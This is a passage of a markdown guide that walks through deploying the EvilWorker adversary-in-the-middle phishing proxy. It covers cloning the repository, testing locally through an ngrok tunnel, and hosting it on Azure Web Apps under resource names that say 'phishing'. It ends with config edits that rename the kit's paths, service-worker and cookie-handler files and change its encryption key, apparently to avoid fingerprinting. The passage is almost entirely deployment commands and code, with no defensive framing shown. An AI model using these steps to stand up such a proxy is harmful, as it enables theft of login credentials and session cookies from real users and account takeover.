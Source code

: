 
## 🚀 STEP 1: EVILWORKER DEPLOYMENT

### **1.1 Clone EvilWorker Repository**
```bash
git clone https://github.com/Ahaz1701/EvilWorker.git
cd EvilWorker
```

### **1.2 Local Testing Setup**
```bash
# Install dependencies (none required - uses standard Node.js libraries)
node proxy_server.js

# In another terminal, start ngrok for HTTPS
ngrok http 3000
```

### **1.3 Production Deployment (Azure Web Apps)**
```bash
# Create Azure Web App
az webapp create \
  --resource-group "aitm-phishing-rg" \
  --plan "EastUSPlan" \
  --name "evilworker-phishing" \
  --runtime "NODE|22-lts"

# Deploy EvilWorker code
az webapp deployment source config \
  --name "evilworker-phishing" \
  --resource-group "aitm-phishing-rg" \
  --repo-url "https://github.com/Ahaz1701/EvilWorker.git" \
  --branch "main"
```

### **1.4 EvilWorker Configuration**
```javascript
// Modify these constants in proxy_server.js
const PROXY_ENTRY_POINT = "/custom-login-path?param1=value1&param2=value2";
const PHISHED_URL_PARAMETER = "custom_redirect_param";

const PROXY_FILES = {
    index: "custom_index_ABC123.html",
    notFound: "custom_404_XYZ789.html",
    script: "custom_script_DEF456.js"
};

const PROXY_PATHNAMES = {
    proxy: "/custom-proxy-endpoint",
    serviceWorker: "/custom_service_worker.js",
    script: "/custom-script-path",
    mutation: "/custom-mutation-handler",
    jsCookie: "/custom-cookie-handler",
    favicon: "/favicon.ico"
};

// Change encryption key
const ENCRYPTION_KEY = "Your-Custom-32-Character-Key-Here";
```

---